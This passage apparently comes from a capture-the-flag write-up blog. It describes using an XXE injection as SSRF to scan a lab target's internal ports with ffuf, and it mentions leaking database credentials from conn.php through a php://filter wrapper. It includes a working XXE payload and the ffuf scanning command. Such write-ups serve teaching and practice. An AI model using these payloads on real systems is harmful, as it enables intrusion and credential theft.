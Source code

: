 I now used `fuff` to scan for the open ports. I used `seq` to create a list of numbers in the command.

```sh
ffuf -request port_scanner.txt -request-proto http -w <(seq 1 65537)  -fs 19
```

![](/assets/blog/sidequest241/port0.png)
Interestingly enough only the mysql port for the database showed up. I already had access to this and didn't find anything useful in it.

> **Note:** You can leak the database password and username because I fuzzed for the database file, I extracted it with `php://filter/convert.base64-encode/resource=file:///var/www/html/conn.php`, because the XXE wouldn't show me PHP. The next thing I found was that `/phpmyadmin` was running, with that I could login to the database and check for data, but this didn't help me. In addition to that I tried command execution and file writing to get RCE over the database.
{: .prompt-tip }

The result didn't help us to make progress. I first thought that there really are no other ports open, but then I realized that maybe the target port is filtered. So I added `base64` encoding to the request to escape any filters or other protections. Then I executed the same command again.

```xml
[...]
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1:FUZZ/"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```
{: file='port_scanner.txt'}

This result looks more promising, we now get three internal ports open.

![](/assets/blog/sidequest241/port1.png)
